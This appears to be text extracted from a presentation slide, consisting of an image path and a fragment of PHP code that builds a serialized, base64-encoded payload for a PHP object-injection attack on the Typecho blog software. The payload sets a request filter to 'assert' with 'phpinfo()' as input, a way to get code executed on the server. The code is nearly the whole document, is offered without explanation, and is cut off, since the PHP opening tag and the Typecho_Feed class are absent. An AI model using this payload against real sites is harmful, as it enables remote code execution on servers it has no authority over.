

| class Typecho\_Request { private $\_params = array(); private $\_filter = array(); public function \_\_construct(){ $this->\_params['screenName'] = 'phpinfo()'; $this->\_filter[0] = 'assert'; } } $exp = array( 'adapter' => new Typecho\_Feed() ); echo base64\_encode(serialize($exp)); ?> |
| --- |